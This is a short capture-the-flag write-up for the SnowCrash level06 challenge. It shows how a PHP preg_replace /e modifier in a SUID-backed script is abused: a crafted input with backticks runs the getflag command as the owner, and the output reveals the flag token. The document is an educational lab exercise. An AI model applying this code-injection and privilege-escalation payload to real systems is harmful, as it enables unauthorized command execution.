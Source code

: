 ##LEVEL06

```
    level06@SnowCrash:~$ ls -l
    total 12
    -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06    
    -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
https://www.redhat.com/sysadmin/suid-sgid-sticky-bit
 A file with SUID always executes as the user who owns the file

so we know now that we need to execute getflag command with level06 script;

https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
as stated here /e regex modifier allows us to use php code withing our regext expression

and by looking in to level06.php we can see that we can inject our code in this form [x <our code>]
and thanks to the suid bit we can run our code in user flag06 mode

level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag


level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1